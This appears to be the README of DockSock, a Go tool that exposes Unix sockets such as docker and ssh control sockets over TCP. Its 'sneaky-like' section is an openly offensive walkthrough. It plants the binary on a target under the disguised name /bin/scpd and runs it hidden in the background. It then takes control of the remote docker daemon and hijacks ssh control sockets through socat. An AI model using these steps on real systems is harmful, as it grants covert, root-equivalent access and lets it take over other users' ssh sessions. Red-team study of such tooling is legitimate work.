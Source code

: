 DockSock
========

Nifty little TCP -> Unix Socket proxy.  Meant to expose docker/ssh control
sockets to the network.

By default, it searches the entire filesystem for unix sockets and for each one
found spawns a TCP listener which will accept connections and proxy them to the
Unix socket.  The starting (i.e. lowest) port is configurable.

A regex (by default `ssh|docker|tmux|tmp`) is used to filter the sockts
exposed.  

The list of found an served sockets can be found by making a TCP connection
(e.g. with netcat) to the lowest port, which by default is `61111`.

For legal use only.

Quickstart
----------
```bash
go install github.com/magisterquis/docksock
docksock -v
```

Slightly Less Quickstart, sneaky-like
-------------------------------------
```bash
# Build the tool
go get github.com/magisterquis/docksock
go build -o docksock github.com/magisterquis/docksock

# Put it on target
scp docksock user@target:/bin/scpd
ssh user@target 'nohup /bin/scpd >/dev/null 2>&1 &'

# Give it time to find some sockets
sleep 60

# List the available sockets
nc target 61111

# Connect to something fun
docker -H target:61112 version

# Even deviouser
socat -d -d unix-listen:./s,fork tcp:target:61113 &
ssh -S ./s user@a
```
